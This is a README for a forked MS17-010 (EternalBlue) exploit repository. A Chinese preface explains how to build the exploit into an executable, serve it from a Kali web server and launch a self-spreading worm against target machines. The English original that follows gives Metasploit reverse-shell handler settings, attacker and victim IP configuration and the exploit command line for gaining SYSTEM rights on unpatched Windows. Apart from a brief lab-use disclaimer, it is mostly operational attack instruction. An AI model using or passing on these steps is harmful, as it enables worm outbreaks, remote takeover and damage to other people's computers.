 使用说明：
1、clone代码到windows随便一个目录
2、安装pyinstall
   python2 -m pip install pyinstall
   注意一定要Pyton2
3、python2 -m pip install impacket
4、C:\Python27\Scripts\pyinstaller.exe -F eternalblue_exploit7.py
 然后把dist文件夹下的exe拷贝到kali的/var/www/html里面改名e.exe

5、然后再clone一份到kali
6、运行./worm_start.sh
7、service apache2 start

将/var/www/html里面的1.exe放到要攻击的靶机上就可以运行

当然前提是有很多东西要改，在main.go和worm_start.sh里，很简单自己看着改吧，这里不讲了，必定是条虫子
另外这个版本是一个低效版，有一定概率能够蠕成功

一下是原版readme
-------------------------------------------------------
# MS17-010

## Intro
This repository is forked from the fantastic work by [Worawit](https://github.com/worawit/MS17-010/) on the NSA's exploit leaked by the ShadowBrokers.

This is a python port of the exploit and has an excellent reliability for exploiting Windows OS that are vulnerable to [MS17-010/EternalBlue](http://www.wired.co.uk/article/what-is-eternal-blue-exploit-vulnerability-patch).
use the checker.py script to see if the target is unpatched/vulnerable.

Worawits script is great but its not so simple or quick to compile and has many moving parts to get up and running. 
It is necessary to work with raw Assembly language, shellcode for multiple architectures, msfconsole etc. 

What I have created a very handy bash script which will do all of the hard work for you and also gives instructions on how to exploit.

## Why create this ?
Because knowing how the exploit works is a lot more fun that firing up metasploit as well as that I created this out of necessity for the [PWK course](https://www.offensive-security.com/information-security-training/penetration-testing-training-kali-linux/) and the [OSCP certification](https://www.offensive-security.com/information-security-certifications/oscp-offensive-security-certified-professional/)  . Those of you undertaking either will be well aware of the fact that Metasploit is extremely limited during exam time, so this 
exploit offers you a very fast reliable and allowed way to exploit any targets with port 445,139 open that are vulnerable.

My generation script will output 2 files that can be read into msfconsole by using the -r flag (msfconsole -r /root/EternalBlueX64.rc), so you dont have to keep typing out 
```
use exploit/multi/handler
set PAYLOAD windows/x64/shell_reverse_tcp
set EXITFUNC thread
set ExitOnSession false
set LHOST 192.168.*.**
set LPORT 5555
exploit -j
```

# Reliability
Its very reliable, I have not come across an unpatched Windows 7 PC that it has not worked against (in PWK and personal Lab environment).
If the system is vulnerable and it does not work the first time around keep trying.. or take a break and regenerate the shellcode again and again, eventually you will own the computer and have full **nt authority\system** rights on the pwned system.


# Use



To get up and running theres 2 things you need to do, open up the start.sh file and add you own ip as the **attackerIP** and the victim OS IP in **vulnerableIP** you can optionally change the port numbers that msfconsole will listen on but generally you can leave them as is.
```
# change these values to your attacking IP and 2 ports for 32bit/64bit Architecture
attackerIP=192.168.2.133 # put your ip here*
vulnerableIP=192.168.2.253  # put the victim ip here*
arch_x86_port=4444  # x86 msfconsole multi handler port (optional change)
arch_x64_port=5555 # x64 msfconsole multi handler port (optional change)
```

fire up  the script and just follow the on screen instructions after the 7 step generation process. 

```
./start.sh
```

You will then need to copy 3 lines from the output 1 is the actual execution of the python **eternalblue_exploit7.py** exploit and the other 2 are the msfconsole helpers to start up 2 exploit/multi/handlers.. something similar to the following but youll see your specific commands in the output.

```
msfconsole -r "/root/MS17-010/output/EternalBlueX64.rc"
msfconsole -r "/root/MS17-010/output/EternalBlueX86.rc"
python /root/MS17-010/eternalblue_exploit7.py 192.168.*.** /root/MS17-010/bin/sc_all.bin 3
```


# Disclaimer
Do not use this on systems unless you have been given explicit permission. 
This is created for use in the PWK labs and OSCP exam lab. 
It may have unpreceedented consequenses both legally and ethically if used inappropriately. 
This is a POC script and I bare no responsibility for its use by others.
